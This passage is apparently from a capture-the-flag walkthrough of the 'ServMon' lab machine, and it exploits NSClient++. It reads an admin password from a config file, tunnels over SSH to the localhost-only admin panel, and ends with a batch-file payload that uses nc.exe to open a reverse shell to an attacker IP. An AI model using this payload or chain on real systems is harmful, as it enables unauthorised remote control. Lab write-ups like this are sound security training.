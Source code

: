 ```
19/03/2019  05:52    <DIR>          WindowsPowerShell
               0 File(s)              0 bytes
              18 Dir(s)  27,852,365,824 bytes free
```

``NSClient`` seems interesting so I started googling about it and came up with an easy step-by-step I found in [exploitdb](https://www.exploit-db.com/exploits/46802)

### NSClient Exploitation

We start by exploring and gathering the informations we need in order to make the exploit work.

- Grab web administrator password :

```
nadine@SERVMON C:\Program Files\NSClient++>type nsclient.ini
# If you want to fill this file with all available options run the following command:
#   nscp settings --generate --add-defaults --load-all
# If you want to activate a module and bring in all its options use:        
#   nscp settings --activate-module <MODULE NAME> --add-defaults
# For details run: nscp settings --help
                                                
; in flight - TODO
[/settings/default]

; Undocumented key
password = ew2x6SsGTxjRwXOT

; Undocumented key
allowed hosts = 127.0.0.1
...
```

After grabbing the web administrator it seems obvious that there is also a config set so only localhost addresses are able to access the web administration page running on port 8443 so I logged out from the SSH client and reconnected by setting up a tunnel to 8443 to replicate the connection to my localhost.

```
root@kali:~# ssh -L 8443:127.0.0.1:8443 nadine@servmon.htb
nadine@servmon.htb''s password:                                                   
Microsoft Windows [Version 10.0.18363.752]                                  
(c) 2019 Microsoft Corporation. All rights reserved.

nadine@SERVMON C:\Users\Nadine>
```

I can now navigate to https://localhost:8443/ :

![panel](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/servmon-walkthrough/panel.png)

We can use the password from the config file we found earlier and move on to the next step of the exploitation.

- Download nc.exe and evil.bat to c:\temp from attacking machine
``@echo off  c:\temp\nc.exe 192.168.0.163 443 -e cmd.exe``
  